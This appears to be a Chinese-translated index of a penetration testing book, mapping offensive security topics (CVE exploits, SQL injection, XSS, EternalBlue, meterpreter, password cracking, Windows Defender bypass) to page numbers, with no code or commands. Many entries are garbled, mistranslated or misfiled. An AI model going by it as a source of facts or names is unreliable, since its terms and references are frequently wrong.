- 网络空间成本, 21
- Costas, Danielle, 264
- Covenant, 466
- 破解 (cracking)
  - 艺术 (art of), 538–539
  - 密码哈值, 25
  - 密码, 519–523
- 缓存客户端 DNS 服务器, 128
- 爬虫, 206
- 创建虚拟硬盘对话框, 42
- cimeware, 20
- 刑事黑客, 15
- Cron 文件, 319–351
- 跨站脚本 (XSS)
  - 关于 (about), 442–455
  - 浏览器漏洞框架 (BeEF), 445–450
  - 缺陷 (flaws in), 450
  - 类型 (types), 442
  - XSS 过滤器绕过, 450–451
- “皇冠等级.”见数据
- `crypt()` 函数, 527, 531–532
- 加密设备, 33
- “密码分析时间内存权衡” (Hellman), 524
- 加密货币, 517–518
- cURL, 228–231
- 大括号 (`\`), 166
- Cuthbert, Daniel (安全顾问), 16–17, 220
- CVE-1999-0209 漏洞, 329–330
- CVE-2007-0882 漏洞, 322
- CVE-2010-4345 漏洞, 180–185

## 564 索引 C-D

- CVE-2010-4435 漏洞, 329
- CVE-2010-0160: 血血漏洞 (Heartbleed), 278–281, 172–180
- CVE-2014-3660 漏洞, 437–439
- CVE-2017-0147 漏洞, 477
- CVE-2017-3623 漏洞, 330–331
- CVE-2017-5618 漏洞, 278–281
- CVE-2017-7494 (SambaCry), 303–306, 476, 496
- CVE-2017-7692 漏洞, 185–187
- CVE-2017-8495 漏洞, 473
- CVE-2019-0734 漏洞, 473
- 循环冗余校验 (CRC) 算法, 532
- Cyrus, 158, 160

## D

- `d` 命令, 376
- 守护进程 (daemon), 151
- DANDERSPRITZ 工具, 467
- 数据 (data), 4
- DATA 命令, 155
- 数据加密标准 (DES), 527, 528
- 数据保护法 (1998), 14
- 数据保护法 (2018), 14
- 数据库管理系统 (DBMS), 355
- 数据库模式 (schema), 357
- 数据库
  - ab, 355
  - 常见漏洞利用对于, 360–361
  - 黑客工具箱用于, 360
  - MongoDB, 381
  - MySQL, 362–374
  - Oracle, 378–381
  - 端口扫描服务器, 361–362
  - PostgreSQL, 374–376
  - 通过进行权限提升, 384–392
  - Redis, 381–384
  - 软件用于, 377–378
  - 结构查询语言 (SQL), 358–359
  - 类型, 356–358
- 用户定义函数 (UDF), 359–360
- 数据报传输层安全 (DTLS), 255
- Debian, 28, 95, 540
- 调试 EBBSHAVE, 335–337
- `d` 命令, 221
- DELETE 方法, 195, 221
- 提交报告, 558
- 递送状态通知 (DSNs), 138–141
- 冯登国 (Dengguo Feng), 533
- 拒绝服务攻击 (DoS), 124–128, 259, 548
- 拒绝服务条件, 16
- 导出函数, 532
- `describe` 命令, 368
- 不安全的反序列化, 452
- `dhclient` 命令, 48
- 拨号上网, 256
- diceware, 35
- Diffie, Whitefield, 254
- Diffie-Hellman 组, 254
- dig (域名信息查询器) 工具
  - 在, 97, 98
  - 用于缓存嗅探, 131
  - 查找区域起始 (SOA), 102–103
  - 使用, 106–111
- 数字千年版权法案 (1998), 14
- Dirb, 207, 218
- 目录, 285
- 目录遍历攻击, 219–220, 440–441
- 通过 DirtyCOW 进行权限提升, 246–249
- 响应式披露, 19–20
- 磁盘加密, 31–33
- 分布式计算环境 (DCE), 466
- 分布式拒绝服务攻击 (DDoS), 88, 124–125
- 分布式反射拒绝服务攻击 (DRDoS), 125
- 发行版 (distro), 27
- DJBNS, 94
- DNS 安全扩展 (DNSSEC), 131–132
- DSenum 工具, 98, 116–117
- DSmasq 工具, 94
- DSnrecon 工具, 98, 116
- DNSof, 128
- `dndoas` 命令, 34
- Docker, 226
- 文档元数据, 76–80
- sign (`$`), 526
- 域控制器, 459
- 域名标识邮件 (DKIM), 144–145
- 域名系统 (DNS)
  - 关于, 87
  - 基础查询, 99
  - 缓存投毒, 129–131
  - 缓存嗅探, 131
  - CHAOSNET, 111–113
  - 拒绝服务攻击 (DoS), 125–126, 128
  - Dig, 106–111
  - DNS 安全扩展 (DNSSEC), 131–132
  - 漏洞利用, 104
  - 查找主机, 98
  - 使用 Dig 查找区域起始 (SOA), 102–103
  - 模糊测试, 132–134
  - 黑客工具包
  - 虚拟名称服务器, 103–104
  - 层级结构, 88–89
  - 攻击的影响, 87–88
  - 信息收集工具, 114–117
  - Metasploit, 121–125
  - Microsoft, 469–470
  - 使用 Nmap 进行端口扫描, 104–106
  - 资源记录, 92–94
  - 轮询, 142
  - 欺骗, 128–129
  - 流量放大攻击, 120–121
  - WHOIS, 98–101
  - 区域传输请求, 113–114
  - 区域, 92
  - 域树, 458
- 基于域的身份认证与合规 (DMARC), 144–145
- 域, 298, 458–461
- 大于符号 (`>>`), 350
- DOUBLEPSAR 工具, 467
- dovecot, 136
- Drupal 社区版 (CE), 553–557
- `dropshell` 函数, 280
- drugedageddon, 433
- Drupal, 65
- DSniff, 98
- DuckDuckGo, 56–57, 206, 518
- DuckSong, 128, 322
- 动态主机配置协议 (DHCP), 38
- 字典, 174

## E

- 简单模式 (easy mode), 53
- EBBSAVE 工具, 319, 333–337
- 有效用户 ID (EUID), 309
- 电子通信隐私法 (1986), 14
- 电子前沿基金会 (EFF), 21
- 电子邮件
  - 关于, 135
  - 破解邮局协议 (POP), 167–169
- CVE-2010-0160: 血血漏洞 (Heartbleed), 172–180
- 递送状态通知 (DSNs), 138–141
- 邮件链, 135–136
- 利用 CVE-2010-4345, 180–185
- 利用 CVE-2017-7692, 185–187
- 从 Google 抓取地址, 59–61 及其, 36
- 邮件头, 137–138
- Nmap 脚本引擎, 169–172
- 扫描邮件服务器, 145–148
- 发送者策略框架 (SPF), 143–145
- 简单邮件传输协议 (SMTP), 141–143
- 通过 Finger 进行用户枚举, 162–167
- Empire, 466
- 加密
  - 关于, 232
  - 与哈希对比, 518
- 谜玛机, 539
- 企业管理员账户, 461
- 识别入口点, 418
- Enumlinux, 288, 299–303, 466, 479–489
- 枚举
  - 定义, 120
  - 用户, 479–489 通过 Finger 进行, 162–167
- `enum.exe`, 466
- 环境变量, 228
- 环境评分, 545
- Equation Group, 477
- 错误页面, 442
- `/etc/shadow`, 526–529
- ETERBLUE 漏洞, 476–479
- 伦理攻击
  - 关于, 13–14
  - 授权, 18–19
  - 漏洞赏金, 20–21
  - 与红队对比, 6
  - 犯罪攻击, 15
  - 定义, 3
  - 灰色区域, 16–17
  - 黑客行为准则, 22
  - 法律建议, 21–22
  - 法律性, 14
  - 方法论, 17–18
  - 公司的免疫系统作为, 91
  - 追求知识, 10
  - 负责性披露, 19–20
  - 虚拟名称服务器, 103–104
  - Windows, Linux, 458–464
  - 书面许可, 15–16
- 欧洲数字权利, 21
- Ewok, 319, 341


# 索引

## E

- 可交换图像格式 (Exif) 数据, 76
- 执行摘要, 在报告中, 550–551
- Exisoft, 77, 80
- Exim, 151, 158, 195
- 退出 文本编辑器, 350
- Exploit Database, 118
- 利用
    - CVE-2010-4345, 180–185
    - CVE-2017-5618, 278–281
    - CVE-2017-7692, 185–187
    - 数据库, 360–361
    - 查找, 118–120
    - 使用 Metasploit 进行 Shellshock, 227
    - 使用 cURL 和 Net 进行 Shellshock, 228–231
- 扩展文件系统 (ext), 284
- 可扩展标记语言 (XML), 193, 437–439
- 外部数据表示 (XDR) 格式, 316–317
- EXACON 工具, 257
- EXTREMAP 漏洞, 351–353

## F

- F 服务器, 91
- 联邦通信委员会, 66
- 现场可编程阵列 (FPGA), 538
- fierce 工具, 98
- 文件位, 285–286
- 文件模式创建, 386
- 文件服务器, 扫描, 288
- 文件与文件共享 关于, 283–284
- 文件传输协议 (FTP), 220, 289–291
- 文件传输协议 (FTP), 220, 289
- FileVault, 32
- 查找载荷, 182
- finger, 319
- 带有收集归信息的组织 (FOCA), 77, 162–197
- 防火墙, 34–35
- 固定大小, 517
- 平文件数据库, 356
- 文件夹, 285
- 森林, 458–461
- 正斜杠 (/), 88, 206, 246, 527
- Fox, Brian, 226
- 分段, 200
- root, 322, 323
- 基于 SSH 的 FTP (SFTP), 289
- 安全 FTP (FTP), 289
- 全虚拟化, 255
- 函数, 用户定义 (UDF), 359–360
- FUZZBUNCH 工具, 467
- 模糊测试, 132–134

## I

- 索引 = I–L 569
- 信息系统安全评估框架 (ISSAF), 17
- 信息收集工具, 114–117
- 注入
    - 关于, 421–422
    - 盲 SQL 注入, 425
    - Drupedageddon, 433
    - LDAP, 276
    - 防止 SQL 注入, 433–434
    - SQL, 359, 422–427
    - SQLmap, 427–433
- 不安全反序列化, 452
- INSERT 命令, 389
- 日志和监控不足, 453–454
- 集成式电子设备 (IDE), 44
- 集成系统数字网络 (ISDN), 17
- 完整性, 547–548
- Intel VT-x, 25
- 拦截代理, 398–412
- 国际标准组织 (ISO), 40–41, 359
- 互联网访问, 25
- 互联网控制消息协议 (ICMP), 52, 260
- 互联网分配与命名机构 (ICANN), 537
- 互联网信息系统 (IIS), 470–471
- 互联网密钥交换 (IKE), 253–254
- 互联网邮件寄件协议 (IMAP), 136, 157–158
- 物联网 (IoT), 4–5
- IP 安全协议 (IPSec), 253
- 互联网安全联盟与密钥管理协议 (ISAKMP), 253
- 互联网系统协会 (ISC), 118, 120
- ip address 命令, 48, 182
- IP 地址，检查, 182
- 问题，与漏洞的对比, 544

## J

- Java, 238
- Java 运行环境 (JRE), 238
- Java 虚拟机 (JVM), 238
- JavaScript 对象表示法 (JSON), 193
- Java 页面 (JSP), 238
- John the Ripper, 519, 520, 522, 529, 536

## K

- Kali Linux, 29, 40–48
- Kaminsky, Dan, 129
- KeepPassX, 35–36
- Kerberasting, 473
- Kerberos, 471–472
- 内核, 30
- 密钥派生函数, 532
- 键盘, 26
- 密钥文件, 36
- keyscan_start 命令, 505
- 密钥加长度 (key-stretching), 532
- 知识，作为黑客追求, 10

## L

- Loptcrick, 519
- 实验室, 48–51
- LAMP 栈, 206
- 局域网管理器 (LANMAN), 506, 524, 535
- 疯狂的最后阶段 (The Last Stage of Delirium), 504
- 横向移动, 461, 493
- LCP, 519
- LDAP 注入, 276
- lidd 命令, 174
- 租用线路, 251
- 法律建议/支持, 21–22
- 法律性, 14
- 密码长度限制, 528–529
- lib 库, 377
- 轻量级目录访问协议 (LDAP), 256, 275–274
- LinkedIn, 67, 81–83
- Linux, 26–27, 458–464
- Linux, Apache, MySQL, PHP (LAMP), 201–205
- Litchfield, 380–381
- 本地文件, 347–351
- 本地权限提升 (LPE), 185, 246
- 锁定方法, 211
- 同步步进 (lockstep), 291
- Lodge, David, 212
- 日志记录不足, 453–454
- 查询, 90
- Love, Lauri (黑客), 15

## M

- Mach, 30
- MacPorts, 30
- 邮件交换 (MX), 94
- 邮件 (函数, 186, 187
- 邮件服务器实验室 (网站), 49
- 邮件服务器，扫描, 145–148
- 邮件传输代理 (MTA), 135
- 邮件用户代理 (MUA), 135
- 主流的，运行, 29
- 畸形包, 133
- 恶意黑客, 55
- Maltego, 80–81
- 恶意软件, 54
- 托管服务提供商 (MSPs), 135
- 中间人攻击 (MitM) 攻击, 289
- 中间人代理 (mitproxy), 185, 397, 398
- 手动浏览/映射, 412–415
- 手动 HTTP 请求, 210–212
- 映射，手动, 412–415
- MariaDNS, 94
- MariaDB, 203, 255, 362
- MD5 哈希值, 302, 522, 530
- 消息代理 (MDA), 135–136
- 消息头头, 137–138
- 元数据, 76–80, 137
- Metasploit, 121–128, 172, 179, 182, 207, 227–228
- meterpreter, 466, 504–505
- 道德黑客方法论, 17–18
- 用于黑入 VPN, 257–258
- 超文本传输协议 (HTTP), 195–196
- Microsoft DNS, 469–470
- Microsoft Exchange, 136
- Microsoft IIS, 203, 205
- Microsoft RPC 协议, 293, 266, 489–497
- Microsoft 安全公告, 472, 476
- Microsoft SQL Server, 203
- 关于 Microsoft Windows, 457
- 替代性负载方法, 509–512
- 绕过 Windows Defender, 512–514
- 域名系统 (DNS), 469–470
- 枚举用户, 479–489
- 黄金令牌 (golden tokens), 472–473
- 黑客工具箱, 466
- 黑入 Linux, 458–464
- 转储 (dump), 505–506
- 信息服务, 470–471
- Kerberos, 471–472
- 轻量级目录访问协议 (LDAP), 474
- meterpreter, 504–505
- Microsoft RPC, 489–497
- 美国安全局 (NSA) 的, 467
- NetBIOS, 473–474
- 密码哈希, 506–507
- 端口扫描服务器, 467–469

## N

- 名称服务器 (NS), 94
- DNS 命名空间, 92
- 美国安全局 (NSA), 59, 257, 467
- 国家漏洞数据库, 498
- NetScan, 288, 296
- NetBIOS over TCP/IP (NBT) 协议, 296–298
- Netcat, 152, 163, 186, 207, 228–231, 247–248
- 网络地址翻译 (NAT), 44, 45
- 网络基础输出 (NetBIOS), 296–298, 469, 473–474
- 网络计算连接导向协议 (NAC), 304
- 网络文件系统 (NFS), 208–311
- 网络锁管理器 (nmgr), 293
- 网络时间协议 (NTP), 126, 255–260
- 网络附属存储 (NAS), 283, 284–287
- 仅主机网络, 38–40
- 新文件系统 (NTFS), 284–285
- 新局域网管理器 (NTLM), 506–507
- Nginx, 195, 203, 208
- Nikto, 207, 212, 216, 227
- Node.js, 204
- 盲 SQL 注入, 225
- 非关系型数据库, 358
- NoSQL
- 报告中的, 553
- NSlookup, 98, 109, 131
- 空设备, 311
- 混淆, 534
- Olin, Philippe, 524
- 攻击性安全 (Offensive Security), 118
- One Sixty, 288, 319, 339
- 一次性密码, 32
- 开放网络计算 (ONC) 协议, 293
- 开放中继, 153–155
- 开放解析器, 120–121, 130
- 开源, 55
- 开源情报 (OSINT), 34
- 客户端审查, 56
- 数据包嗅探，使用 Wireshark, 109–111
- 并行, 166
- 文档地址, 76–80
- 参数化查询, 433–434
- 目标, 57–58
- 执行, 62
- Google 黑客数据库 (GHDB), 65–66
- 从 Google 获取地址, 59–61
- 采集 Web, 75–76
- 基于密码的派生函数（版本）2 (PBKDF2), 532
- Have Been Pwned (HIBP), 66
- 破解艺术, 538–539
- 默认, 16
- 破解, 519–532
- 防护, 85–86
- Recon-ng, 67–74, 75
- 猜测, 537–538
- shadow 文件, 62–65
- 哈希表, 523–524
- 哈希类型, 530–533
- 哈希, 517–519
- 用于工具, 59
- Microsoft 哈希, 535–537
- 社交媒体网络, 81–83
- 哈希, 533–535
- 方法论手册 (OSSTM), 17
- 彩虹表, 523–524
- 开放系统互连接 (OSI) 模型, 110, 142
- 盐, 525–526
- shadow 文件, 526–529
- 项目 (OWASP), 17, 396–397, 452
- 黑客工具箱, 519
- OpenPGP, 19, 36
- PATCH 方法, 195
- OpenSolaris, 317
- Paterna, 80
- OpenSSL, 172, 174, 275
- 负载, 181–182, 509–512
- 渗透测试。见报告
- 渗透测试。见道德黑客
- 关于, 252
- 接入服务器, 268
- 渗透测试执行标准 (PTES), 17
- VPN 与, 267–275
- 渗透测试 (pentesting)，见
- openvpn 命令, 268
- OPTIONS 命令, 195, 205
- Pentoo Linux, 29
- Oracle, 203, 378–381
- 周期 (), 89, 527
- Oreans Technology, 510
- Perl, 204
- Orpheus' Lyre 漏洞, 394
- 权限
    - 未访问服务, 16
    - 所有者, 285

## P

- 持久性信息 (PII), 58
- 伪随机数生成器, 540
- 物理攻击, 246
- ping 命令, 505
- ping 扫描, 274
- ping 工具, 260
- 可插身份模块 (PAM), 256
- 指针 (PTR), 94
- 点对点协议 (PPP), 252
- 上电自检 (POST) 消息, 37
- 执行后阶段, 5
- PostgreSQL, 203–374
- PPSplo, 503–504
- PowerSploit, 466, 504
- PowerTools, 466
- PowerUp, 508
- 预身份验证漏洞, 374
- 预启动执行环境 (PXE), 291
- 预编译语句, 433–434
- 预共享密钥 (PSK), 253
- 优密隐私加密 (PGP), 19, 558
- 主域控制器 (PDC), 298, 460
- 主键, 356–357
- 打印作业语言 (PJL), 342
- 私分交换机 (PBX), 17
- 权限提升
    - 关于, 245–26
    - Microsoft Windows, 507–508
    - 网络文件系统 (NFS), 309–311
    - 通过 PowerShell, 502–503
    - 使用 Dirty COW, 246–249
    - 通过数据库, 384–392
    - Web 应用以及, 454–455
- 所需的权限, 546
- 探测 SMTP 服务, 152–153
- Procmial, 136
- 配置收集器, 72
- 程序控制, 337
- 校对方法, 557–558
- PROFINED 方法, 211
- PROPPATCH, 211
- Protiviti’s 2017 安全与隐私最佳实践报告, 10
- Proxychains, 207, 243–245
- 伪-哈希, 533–535

## Q

- # 574 索引 = P–R
- 公钥基础设施 (PKI), 132, 144–145
- 红队/紫色队 (purple team), 3–9
- PUT 方法, 195, 205
- PuTTY, 511
- PwDump, 462
- PwDump6, 462
- PwDump7, 462
- PwDumpX, 462
- PwDumpX14, 466
- Python, 184, 204

## R

- 远程桌面协议 (RDP), 497–498
- 远程过程调用 (RPC), 288, 292–294, 326–337
- 报告
    - 关于, 543–544
    - 评估结果, 551–552
    - 常见漏洞评分系统 (CVSS), 545–548
    - 组件, 549
    - 交付, 558
    - Dradis 社区版 (Dradis CE), 553–557
    - 执行摘要, 550–551
    - 笔记, 553
- DNS 查询, 89–91
- Racoon, 257
- Rain Forest Puppy’s LibWhisker, 212
- 彩虹表 (rainbow tables), 519, 523–524
- RainbowCrack, 519
- RAM, 244
- 随机数生成器, 539–540
- 树莓派 (Raspberry Pi), 24
- “准备好被破解”的业务模式, 8
- Recon-ng, 67–74, 75–100
- 记录类 (record class), 97
- 记录数据, 97
- 记录类型, 97
- 红队 (red teams), 5–7
- 直接重定向, 194, 247
- Redis, 381–384
- 推导函数, 523–524
- 受污染输入, 443
- 反射型 XSS, 442
- 关系型数据库管理系统 (DBMS), 357
- 关系型数据库, 356–358
- 资源 ID (RID) 循环, 300
- 远程拨号接入用户服务 (RADIUS), 255
- 远程代码执行 (RCE) 漏洞, 257
- 远程命令执行, 185
- 校对, 557–558
- 支持信息, 552
- 技术总结, 551
- 写作，作为一种技能, 549
- 要求，最低, 24–25
- 解析器 (resolver), 130
- 解析器缓存, 130–131
- 资源记录, 92–94, 108
- 缺乏资源, 7
- Responder 工具, 474–475
- HTTP 响应码, 196–198
- 受限删除标记, 287
- 反向负载, 182
- 反向 shell (reverse shell), 187
- IDenumber, 466
- 磁盘, 544
- Rivest, 254
- Rivest-Shamir-Adelman (RSA) 证书, 233–237
- root 漏洞, 183–184
- root 级别, 206, 311
- root 位置, 216
- root 根服务器, 88, 90
- Rosetta Stone, 316
- Roundcube, 161
- 轮询 DNS, 142
- RPCbind, 293
- RPCclient, 288, 301
- RPCinfo, 284, 294–295, 319

## S

- 索引 R-S
- R-服务, 338–339
- Rsync, 288, 306–308
- rsync 命令, 306–307
- Ruby, 204
- 分号 (j), 165, 365, 425
- 发送者策略框架 (SPF), 113, 143–145
- Sendmail, 159–160
- 敏感数据泄露, 436
- SATA 高速串行附件, 44
- 序列号, 97
- 序列化, 452
- 严重犯罪法 (j), 14
- 服务器消息块 (SMB), 295, 474–476
- 服务端脚本后门, 207
- 会话固定攻击 (Session Fixation), 199, 436
- 会话命令, 184–185
- 组 ID (SGID), 287
- 用户 ID (SUID), 287
- 设置，虚拟化, 37
- 设置框, 46
- 7zip 工具, 558
- Shadow Brokers, 205, 257
- 影子文件, 62–65, 529–530
- shadowdump, 466
- 清理, 443, 447


# 索引 S–T

## 可扩展处理器架构 (SPARC)
316

## 扫描
- 端口扫描, 326–337
- Web 漏洞, 212–216

## Scapy
98

## 架构 (schema)
357

## Schwartz, Aaron (黑客)
15

## Screen
278–279

## 搜索命令
227, 207

## Searchploit
98, 118–119

## 第二阶段认证
275

## 安全哈希算法 1 (SHA1)
253, 530

## 安全哈希算法 2 (SHA2)
531

## 安全 Shell (SSH)
Telnet 以及 324–326

## 安全套接层 (SSL)
138, 175

## 安全隧道
253

## 安全账户管理器 (SAM)
462, 535

## 安全关联 (SA)
253, 263–265

## 安全 ID (SID)
300

## 安全标识符 (SID)
482

## 安全配置错误
441–442

## 安全技术实施指南 (STIGs)
8

## 单指令多数据流 (SIMD)
24

## 单点故障
142

## 报告写作技能
549

## 状态守护进程 (statd)
293

## 粘滞 (sticky bit)
287

## sleep 命令
231

## 停止条件
539

## 智能设备
24

## 智能手机
24

## 存储区域网络 (SAN)
284

## 存储过程
361

## 存储型 XSS
442–444

## SNMPCheck
219, 340

## SNMPwalk
288

## strings 命令
178

## 社会工程学
10–11

## 社交媒体网络
81–83

## strongswan
267

## 结构化查询语言 (SQL)
72, 357, 358–359

## 软件
- 反病毒 (AV), 462–463
- `sudo` 命令, 44, 47, 48
- 电子邮箱, 158–162
- 后缀, 27
- 用于伦理黑客攻击, 33–36
- 用于黑进数据库, 377–388

## Sullo, Chris
212

## Solaris
316–320

## 固态硬盘 (SSD)
25, 285, 288, 52

## 鱼叉式钓鱼
8, 141

## 系统管理，UNIX
316

## 特殊字符
227

## SYSTEM shell
508–509

## 爬虫
206, 415–418

## 欺骗
121, 128–129

## SQL (结构化查询语言)
357, 358–359

## ts
24

## SQL 数据库
255

## SQL 注入
359, 422–427

## SQLmap
427–433

## SQLite
357

## 任务调度器
497

## TCPdump
208, 232

## 技术总结
551

## Squid
243

## Squirrel Mail
161, 185

## SSLscan
174

## sslscan 工具
232

## 控制系统 (TACACS)
256

## 栈跟踪
442

## 测试
52–63, 67

## 标准输出
166

## Text (TXT)
94

## 标准信息收集 (SIG)
510–551

## 三层架构
204

## 起始区域 (SOA)
92, 94

## 授权票据 (TGTs)
102–103

## 无状态 HTTP
198

## 时间，限制
7

## 生存时间 (TTL)
90

## 工具包
577

## 时间尺度
545

## Telnet
319, 320–326

## STARTTLS
471–472

## 波浪号 (~)
72

## id (状态守护进程)
293

## TRACE 方法
195

## traceroute 工具
147

## 流量放大
120–121

## 转换
20

## 透明度
18–19

## 传输控制协议 (TCP)
84, 105–198

## 传输层安全 (TLS)
157, 232–237

## 树
458–461

## Trend Micro
3

## 三重加密算法 (TDEA)
254

## 三重 DES (3DES)
254

## 三重文件传输协议 (TFTP)
291–292, 535

## 三重 FTP (TFTP)
289

## 双重认证 (2FA)
85–86

## 两步认证
85–86

# 索引 T—U

## 用于数据库攻击信息收集
114–117

## 顶级域名 (TLD)
92

## 贸易秘密
14

## 训练，不足
6

## Ubuntu
27, 28–29, 34, 95

## uname -a 命令
246

## 简单防火墙 (Uncomplicated Firewall)
34

## 统一扩展固件接口 (UEFI)
25

## 统一资源标识符 (URIs)
200–201

## 统一资源定位 (URL)
200–201

## 通用命名规范 (UNC)
302, 475

## UNIX
- 关于, 315
- 通用桌面环境 (CDE), 351
- 统一打印系统 (CUPS), 341–443
- Cron 文件, 347–351
- EXTREMP, 351–353
- 黑客工具, 318–319
- 本地文件, 347–351
- 端口扫描, 326–337
- RPC-服务, 338–339
- 安全 Shell (SSH), 324–326
- 简单网络管理协议 (SNMP), 339–341
- Solar, 316–318, 319–320
- 系统管理, 316
- Telnet, 320–324
- X Window 系统 (X/II), 343–347

## Unix-privesc-check
251

## UNLOCK 方法
211

## unmask 命令
285, 386

## 无符号整数
172

## 升级 shell
183

## 上传文件/shell
220–223

## use 命令
368

## 用户账户控制 (UAC)
绕过, 463–464

## 用户数据库
255–256

## 用户数据报协议 (UDP)
105–106, 261

## 用户枚举，通过 Finger
162–167

## 用户交互
547

## 用户空间
另见 userland

## 用户定义函数 (UDF)
359–360

## userland
311

## 用户权限提升
278

## 用户
461, 479–489

## Visual Studio Community
464

## VMware
24, 37

## 卷影拷贝服务 (VSS)
462

## VRFY 命令
155

## 漏洞
- 命令注入, 227
- 与问题对比, 544
- 目录遍历攻击, 219–220
- 发现, 421
- 已知, 453
- 寻找, 118–120
- 创建漏洞服务器, 53–54

## VulHub
53

# 索引 = W-W 579

## 开放 Web应用程序安全项目 (OWASP)
396–397

## 端口扫描服务器
397–398

## 权限提升
441–445

## 安全配置错误
441–442

## 敏感数据泄露
436

## 喷射 (sprining)
415–418

## 堆栈跟踪
423

## 漏洞扫描器
418–421

## XML 实体
437–439

## web浏览器
207

## Web 分布式授权与版本控制 (WebDAV)
205, 207–220

## web扩展工具
206

## web代理
242–243

## web 服务器漏洞
191–192

## 上传文件
220–223

## Web 管理界面
238–242

## web代理
242–243

## 万维网 (WWW)
192–193

## web 服务器
206–210

## web 服务
202–203

## web 漏洞扫描器
418–419

## Burp Suite Professional
420

## Skipish
221

## Zed Attack Proxy (ZAP)
419–420

## Web 邮箱
161–162

## Webmin
240–241

## 网站
203

## 特定网站
- Apache 漏洞, 120
- BIND 漏洞, 21
- 漏洞赏金计划, 片段, 75–76
- 收集现象学工具集, 343
- 打印机黑客, 342
- 伪随机数生成器, 525
- 通用网关接口 (CGI), 225–226
- 爬虫, 206
- 猜测隐藏 web 内容, 216–220
- Heartbleed, 232–237
- HTTP 身份验证, 223–225
- 超文本传输协议 (HTTP), 193–200
- Linux, Apache, MySQL, 和 PHP (LAMP), 201–205
- 手动 HTTP 请求, 210–212
- 端口扫描 web 服务器, 207–210
- 权限提升, 245–249
- 权限提升 DirtyCOW, 246–249
- Proxychains, 243–245
- 扫描, 212–216
- 安全套接层 (SSL), 232–237
- 蜘蛛程序, 206
- 传输层安全协议 (TLS), 232–237
- 统一资源标识符 (URIs), 200–201
- 关系型数据库管理系统 (RDBMSs), 357
- 根域名服务器, 90–91
- 流量放大攻击, 122
- 漏洞, 119

## Weeely
207, 222–223

## Wget
207

## 网络叉叉鱼攻击
2–3

## Whatsapp
109–111, 133, 208, 232

## 白帽防御者
5

## whoami 命令
473, 500

## WHOIS
98–101

## Windows 计算器程序
511

## Windows Defender
462–463, 512–514

## Windows 域
298

## Windows 表
462

## WinRM
497

## WinZip
20, 558

## 无线心灵感应法 (2006)
14

## 字典
519

## 万维网 (WWW)
192–193

## 书面许可，用于渗透测试
15–16

# X

## X 和密钥管理 (XCA)
270

## X 窗口系统 (X11/X)
318, 343–347

## xdotool
319, 345–346

## XDR RPC 溢出
330–331

## XML 外部实体 (XXE)
437–439

## Xspy
319

## XSS 过滤器绕过
450–451

## XSS 混合攻击
451

## xwd
319

## xwd 命令
344

## xwininfo
319

# Y

## YAML
358

## Yoserial
452

# Z

## Zalewski, Michael
226

## Zed Attack Proxy (ZAP)
397, 415–418, 419–420

## 零日漏洞
19, 120

## ZIP 文件
558

## 区域文件
96

## 区域名称
96

## 区域传输请求
113–114

## 权限区域
92
